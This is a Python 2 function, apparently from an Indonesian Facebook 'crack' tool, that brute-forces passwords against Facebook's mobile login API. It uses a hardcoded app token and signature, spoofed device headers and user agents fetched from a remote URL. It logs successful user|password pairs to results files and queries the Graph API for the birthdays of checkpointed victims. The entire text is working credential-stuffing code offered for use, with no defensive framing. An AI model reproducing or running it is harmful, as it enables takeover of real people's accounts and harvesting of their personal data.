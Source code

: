 
    def __api__(self, user, __yan__):
        global ok,cp,loop
        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),
        sys.stdout.flush()
        for pw in __yan__:
            pw = pw.lower()
            try: os.mkdir('results')
            except: pass
            try:
            	_kontol = open('YNTKTS.txt', 'r').read()
            except (KeyError, IOError):
            	_kontol = requests.get('https://raw.githubusercontent.com/Yayan-XD/ymbf/main/data/user_agent.txt').text.strip()
            headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)),
               'x-fb-net-hni': str(random.randint(20000, 40000)),
               'x-fb-connection-quality': 'EXCELLENT',
               'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA',
               'user-agent': _kontol,
               'content-type': 'application/x-www-form-urlencoded',
               'x-fb-http-engine': 'Liger'}
            api = 'https://b-api.facebook.com/method/auth.login'
            params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32',  'format': 'JSON', 'sdk_version': '2', 'email': user, 'locale': 'en_US', 'password': pw, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
            response = requests.get(api, params=params, headers=headers_)
            if re.search('(EAAA)\\w+', response.text):
                print '\r  %s* --> %s|%s                 %s' % (H,user,pw,N)
                wrt = ' [✓] %s|%s' % (user,pw)
                ok.append(wrt)
                open('results/OK-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                break
                continue
            elif 'www.facebook.com' in response.json()['error_msg']:
                try:
                    kontol = open('.ppk/.memek.txt').read()
                    ak = requests.get('https://graph.facebook.com/%s?access_token=%s'%(user,kontol))
                    az = json.loads(ak.text)
                    graph = az["birthday"]
                    month, day, year = graph.split("/")
                    month = bulan[month]
                    print '\r  %s* --> %s|%s|%s %s %s     %s' % (K,user,pw,day,month,year,N)
                    wrt = ' [×] %s|%s|%s %s %s' % (user,pw,day,month,year)
                    cp.append(wrt)
                    open('results/CP-%s-%s-%s.txt' % (ha, op, ta), 'a').write('%s\n' % wrt)
                    break
                except (KeyError, IOError):
                    month = ''
                    day = ''
                    year = ''
                except:
                    pass

